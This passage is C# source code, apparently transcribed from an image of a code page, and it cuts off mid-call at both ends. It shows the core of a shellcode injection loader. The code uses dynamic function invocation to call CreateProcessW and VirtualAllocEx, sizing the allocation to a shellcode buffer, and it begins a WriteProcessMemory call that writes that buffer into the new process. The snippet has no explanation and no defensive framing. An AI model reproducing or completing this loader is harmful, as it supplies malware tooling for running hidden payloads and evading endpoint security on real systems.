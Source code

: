 ```
boxedProcessInfo

};

Generic.DynamicFunctionInvoke(

hCreateProcessW,

typeof(CreateProcessWDelegate),

ref createProcessWParams

);

processInfo = (PROCESS_INFORMATION)createProcessWParams[9];

object[] vallocExParams =

{

processInfo.hProcess,

IntPtr.Zero,

(uint)shellcode.Length,

(uint)ALLOCATION_TYPE.MEM_COMMIT|(uint)ALLOCATION_TYPE.MEM_RESERVE,

(uint)MEMORY_PROTECTION.PAGE_READWRITE

};

var baseAddress = (IntPtr)Generic.DynamicFunctionInvoke(

hVallocEx,

typeof(VirtualAllocExDelegate),

ref vallocExParams

);

object[] wpmParameters =

{

processInfo.hProcess,

baseAddress,

shellcode,

(uint)shellcode.Length,

IntPtr.Zero

};

Generic.DynamicFunctionInvoke(

hWriteProcessMemory,

typeof(WriteProcessMemoryDelegate),
```